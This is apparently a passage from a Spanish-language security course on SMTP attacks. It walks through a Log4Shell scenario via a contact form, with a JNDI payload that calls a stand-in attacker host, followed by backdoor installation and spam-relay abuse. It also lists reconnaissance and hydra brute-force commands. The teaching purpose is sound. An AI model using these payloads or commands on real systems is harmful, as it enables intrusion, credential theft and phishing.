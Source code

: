     │  • CVE-2021-45046: Log4j2 DoS vulnerability                │
    │  • SQL Injection en formularios de contacto                │
    │  • XSS en páginas de configuración de email                 │
    │                                                             │
    │  EJEMPLO: LOG4SHELL EN APLICACIÓN WEB CON SMTP              │
    │                                                             │
    │  ESCENARIO: Aplicación web que envía emails de contacto     │
    │  usando Log4j para logging y SMTP para envío.              │
    │                                                             │
    │  ATAQUE:                                                     │
    │  1. Atacante envía payload Log4Shell en formulario:        │
    │     ${jndi:ldap://atacante.com:1389/Exploit}               │
    │                                                             │
    │  2. Aplicación web registra el input en Log4j               │
    │                                                             │
    │  3. Log4j ejecuta el payload y descarga código malicioso    │
    │                                                             │
    │  4. Atacante obtiene acceso al servidor web                 │
    │                                                             │
    │  5. Desde el servidor web, puede acceder a configuración    │
    │     SMTP y enviar emails falsos                            │
    │                                                             │
    │  RESULTADO: Compromiso de aplicación web →                  │
    │             Acceso a SMTP → Email spoofing                 │
    │                                                             │
    │                                                             │
    │  3. ACCESO:                                                │
    │     • Obtener acceso root/admin al servidor SMTP           │
    │     • Modificar configuraciones de autenticación          │
    │     • Instalar backdoors para acceso persistente           │
    │                                                             │
    │  4. ABUSO:                                                 │
    │     • Enviar emails masivos con remitentes falsos          │
    │     • Usar servidor comprometido como relay para spam     │
    │     • Ocultar origen real de ataques de phishing          │
    │                                                             │
    └─────────────────────────────────────────────────────────────┘
    ```
  - **Método 3:** Usar scripts de Python con librerías de email
  - **Método 4:** Explotar configuraciones débiles en servidores de correo
- **Ejemplo:** Email que parece venir del banco pidiendo datos
- **Impacto:** Phishing, robo de credenciales, distribución de malware

**Herramientas de Ataque SMTP:**

```
┌─────────────────────────────────────────────────────────────┐
│                HERRAMIENTAS DE ATAQUE SMTP                  │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  ⚠️  DISCLAMER IMPORTANTE: ⚠️                              │
│  Las siguientes herramientas y técnicas se estudiarán      │
│  ÚNICAMENTE en ambientes controlados de laboratorio        │
│  para fines educativos y de seguridad defensiva.           │
│  Su uso en sistemas sin autorización es ILEGAL.            │
│                                                             │
│  RECONOCIMIENTO:                                            │
│  • nmap -p 25,587,465 servidor.com (Escaneo de puertos)   │
│  • telnet servidor.com 25 (Conexión manual SMTP)          │
│  • nslookup -type=mx dominio.com (Consulta registros MX)   │
│  • dig MX dominio.com (Herramienta DNS avanzada)          │
│  • smtp-user-enum (Enumeración de usuarios SMTP)           │
│                                                             │
│  FUERZA BRUTA:                                             │
│  • hydra -l usuario -P wordlist.txt smtp servidor.com      │
```
